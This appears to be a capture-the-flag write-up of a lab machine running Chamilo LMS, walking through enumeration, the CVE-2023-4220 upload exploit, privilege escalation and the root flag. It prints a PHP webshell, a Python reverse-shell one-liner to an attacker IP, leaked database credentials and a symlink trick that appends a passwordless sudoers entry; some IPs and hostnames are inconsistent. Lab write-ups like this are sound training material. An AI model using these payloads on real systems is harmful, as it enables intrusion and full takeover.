Let’s scan the machine with nmap.
# Command
sudo nmap -sS -sV -sC -v -T4 10.10.11.23
# Output
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_ 256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open http Apache httpd 2.4.52
Let’s check the Http Server in browser. It seems then we try to access http://10.10.11.23:80/ we get redirected to http://permx.htb/, but the page doesn’t load.
The server is likely configured to respond to requests only when they’re made to a specific domain (in this case, permx.htb) This setup is common in virtual hosting, where multiple domains may be hosted on the same server, but each needs to be accessed by its domain name for the server to serve the correct website.
To access the website, we need to modify the etc/hosts file. This way the browser skips the DNS lookup (to resolve the Ip Address, 10.10.11.23) and it directly gets us to the website.
sudo vim /etc/hosts
# Add this line
10.10.11.14 permx.htb
Now the website can load properly.

By looking around, it doesn’t to be anything interesting. Let’s try directory enumeration with gobuster.
gobuster dir -u http://perm.htb/ -w /usr/share/wordlists/dirb/big.txt
But still the resulted pages are either restricted or not usefull.
Proceed to enumerate subdomains with ffuf.
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://permx.htb/ -H "Host: FUZZ.permx.htb"
# results
/www
/lms
The /lms subdomain is interesting, let’s give it a try. Change again /etc/hosts.
sudo vim /etc/hosts
# Modify
10.10.11.14 lms.permx.htb
The application running on lms.permx.htb is Chamilo.

With Ctrl+U we can take a look at the source code of the page.

These are endpoints we can check to gather more information about the application.
After inspection at http://lms.permx.htb/app/Migrations/Schema/ we can see two folders indicating some version, problably of Chamilo, so the current one is 1.11.

Let’s search online in case there is any exploit for the specific version of Chamilo we can use.
After searching at Google, we found a vulnerability, CVE-2023-4220.

By exploiting this vulnerability we could obtain remote code execution. There is also an exploit in github.

Clone the repository and run the .sh script according to the documentation.
# we will use this code as webshell (webshell.php)
<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>
# run the script according to the documentation
./CVE-2023-4220.sh -f webshell.php -h http://lms.permx.htb/ -p 6464
Then file was uploaded and a listener has started at the port 6464. Let’s head to this url in the server http://target.test/main/inc/lib/javascript/bigupload/files/ and run the webshell.php script.
Then at the end of the url add this payload
?cmd=python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.77",6464));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
We connected to the server! Type bash to open a /bin/bash terminal.

By the id command, we can see that we are www-data user and that we do not have sudo permissions or any capabilities that we can leverage to escalate our previlages. So let’s try to find out more about the application configurations, databases etc.
By reading Chamilo docs, it seems that the configurations of the database connected to the application is at config/configuration.php file.
Open this file, /var/www/chamilo/app/config/configuration.php.

So we got the credentials for the database (chamilo:03F6lY3uXAP2bkW8), which according to Chamilo documentation should be either MySql or MariaDB. Let’s try with MySql first.
mysql -u chamilo -p
We connected successfully to mysql, now let’s choose the chamilo database and search tables for usefull information like credentials.

From the show tables results, user table seems interesting. Let’s retreive its information.
MariaDB [chamilo]> select * from user\G;
Note: Add \G at the end of any command to display the results in a vertical format. This can make it easier to read when there are many tables or long table names.

We can use john to crack this password hash (dcode identifies the encryption method as the Crypt() Hashing Fuction)

# hash.txt content
$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra
john --format=bcrypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
But no result. Let’s see what other users are available and if we can ssh to them with the password we logged in to the database.

So we have the user, mtz.
Great, we got a foothold to the machine. Now we have to gain root previlages. With the command sudo -l we found that we can execute as root the /opt/acl.sh file.

We can use this script to give additional permissions to any file in the /home/mtz directory but with no .., meaning no path traversal is permitted.

Let’s try adding the user mtz to the sudoers file by using a symling (symbolic link). First we need to check if setfacl can change permissions though the symlink to the original file.
ln -s /etc/sudoers sudoers # create the symlink
# give read/write permissions to the symlink
sudo /opt/acl.sh rw /home/mtz/sudoers
# add mtz to the original sudoers file though the symlink
echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/sudoers
# now run bash as sudo to see if it worked
sudo bash #Success

We have gained successfully root previleges and the flag!